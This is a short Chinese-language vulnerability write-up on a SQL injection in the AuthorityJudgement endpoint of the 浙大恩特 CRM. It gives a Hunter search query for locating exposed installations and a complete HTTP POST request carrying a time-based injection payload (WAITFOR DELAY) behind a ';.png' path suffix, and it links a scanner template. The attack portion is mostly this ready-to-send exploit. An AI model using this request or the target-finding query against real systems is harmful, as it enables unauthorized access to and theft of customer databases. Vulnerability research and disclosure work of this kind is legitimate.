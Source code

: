 # 浙大恩特CRM AuthorityJudgement存在SQL注入漏洞

# 一、漏洞简介
<font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM是由浙江大学恩智浙大科技有限公司推出的客户关系管理（CRM）系统。该系统旨在帮助企业高效管理客户关系，提升销售业绩，促进市场营销和客户服务的优化。系统支持客户数据分析和报表展示，帮助企业深度挖掘客户数据，提供决策参考。浙大恩特CRM AuthorityJudgement存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感数据。</font>

# <font style="color:rgba(0, 0, 0, 0.9);">二、影响版本</font>
+ <font style="color:rgba(0, 0, 0, 0.9);">浙大恩特CRM</font>

# <font style="color:rgba(0, 0, 0, 0.9);">三、资产测绘</font>
+ hunter`app.name="浙大恩特 CRM"`
+ 特征

![1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a.png](./img/9XAMe8BW3nTA1LAk/1700034640158-a0b751ed-9499-471d-aef1-96b75913aa5a-642664.png)

# 四、漏洞复现
```java
POST /entsoft/PurchaseAction.entphone;.png?method=AuthorityJudgement HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Content-Length: 34
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded

modNum=1';WAITFOR DELAY '0:0:1'--+
```

![1708515727567-73b86e53-cf50-4d3c-910e-e34dd603d2b2.png](./img/9XAMe8BW3nTA1LAk/1708515727567-73b86e53-cf50-4d3c-910e-e34dd603d2b2-798665.png)

[浙大恩特客户资源管理系统-purchaseaction-entphone--sql注入.yaml](https://www.yuque.com/attachments/yuque/0/2024/yaml/1622799/1709222145208-7476e5e1-74ce-47c8-9fb1-8d44ebeec9ac.yaml)



> 更新: 2024-02-29 23:55:45  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ev7t9dcsd9ystmur>